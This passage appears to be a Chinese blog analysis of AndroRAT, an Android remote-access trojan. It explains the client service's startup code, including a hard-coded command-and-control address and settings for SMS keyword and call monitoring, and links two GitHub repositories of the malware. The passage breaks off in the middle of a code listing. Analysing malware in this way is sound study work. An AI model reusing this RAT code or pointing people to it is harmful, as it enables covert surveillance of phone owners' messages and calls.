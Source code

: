 ```java
}
```

先定义一个调用Client的Intent，设置action。后面的代码创建了一个Start和Stop按钮，Start按钮从ipfield和portfield中抽取ip和port，添加到Intent携带的数据中（在Client设定连接到的服务端信息），然后启动Client服务，禁用Start按钮，开启Stop按钮。Stop按钮的实现写在了最后，停止Client服务，然后打开Start按钮，禁用Stop按钮。不过不知道作者怎么想的，把ipfield和portfield禁用掉了，所以这个功能就一直都是废掉的。如果想要使用它们，可以修改代码中对于ipfield和portfiled的注释部分，在界面这设计中添加id为ipfield和portfield的输入框。

我的代码是从《如何玩转andriod远控（androrat）》作者提供的网盘上下载的，在Androrat项目的GitHub项目里没有看关于界面的代码，应该是这篇文章作者用做文章的示例代码。

这里有一点小的八卦信息，GitHub上面搜索Androrat，从返回的和这个项目相关的内容中可以看出原作者是一个叫RobinDavid的法国人（注释中满满的全是看不懂的鸟文o(╯□╰)o），但是我在作者自己的GitHub中没有找到这个项目，而且这个项目应该是作者在2012年11月开发的，至于原因什么的各位看官自己去联想吧。

这个项目目前在GitHub上Wooyun的wszf（猥琐zf？）在维护，我看了下历史更新，貌似改动挺大。还有一个是一个国外的人fork的，没有什么改动，原汁原味的，大家喜欢哪个就去下哪个吧，链接如下：

+ [wszf的androrat](https://github.com/wszf/androrat/tree/master/src/AndroratServer/inout)
+ [原版的androrat](https://github.com/DesignativeDave/androrat)

## 0x04 核心Client类分析

每当一个服务建立后，都会由系统调用它们的onCreate方法，所以我们先来看Client的OnCreate方法的代码：

```java
	public void onCreate() {
		Log.i(TAG, "In onCreate");
		infos = new SystemInfo(this);
		procCmd = new ProcessCommand(this);
		
		loadPreferences();
	}
```

进行了几步初始化操作，SystemInfo类是用于读取系统信息的类，ProcessCommand类则是用于处理Server发送的命令的类，loadPrefererences用于初始化各个参数，我们来看它的代码：

```java
	public void loadPreferences() {
		PreferencePacket p = procCmd.loadPreferences();
		waitTrigger = p.isWaitTrigger();
		ip = p.getIp();
		port = p.getPort();
		authorizedNumbersCall = p.getPhoneNumberCall();
		authorizedNumbersSMS = p.getPhoneNumberSMS();
		authorizedNumbersKeywords = p.getKeywordSMS();
	}
```

使用ProcessCommand的loadPreference方法通过读取perference设置的内容来初始化监控信息，包括Server的ip和port、指定是否开启来电或短信提醒触发Client启动、指定特别关注的号码电话或者短信、指定监听特定关键字短信，然后将内容添加到成员变量当中。其中perference的设置需要在连接Server时被远程设定，所以默认初始的ip和port都是被直接写在代码中的。下面为ProcessCommand的loadPreference方法详细代码：

```java
public PreferencePacket loadPreferences()
	{
		PreferencePacket p = new PreferencePacket();
		
		SharedPreferences settings = client.getSharedPreferences("preferences", 0);

		p.setIp( settings.getString("ip", "172.16.1.60"));
		p.setPort (settings.getInt("port", 7777));
		p.setWaitTrigger(settings.getBoolean("waitTrigger", false));
		
		ArrayList<String> smsKeyWords = new ArrayList<String>();
		String keywords = settings.getString("smsKeyWords", "");
		if(keywords.equals(""))
			smsKeyWords = null;
		else {
```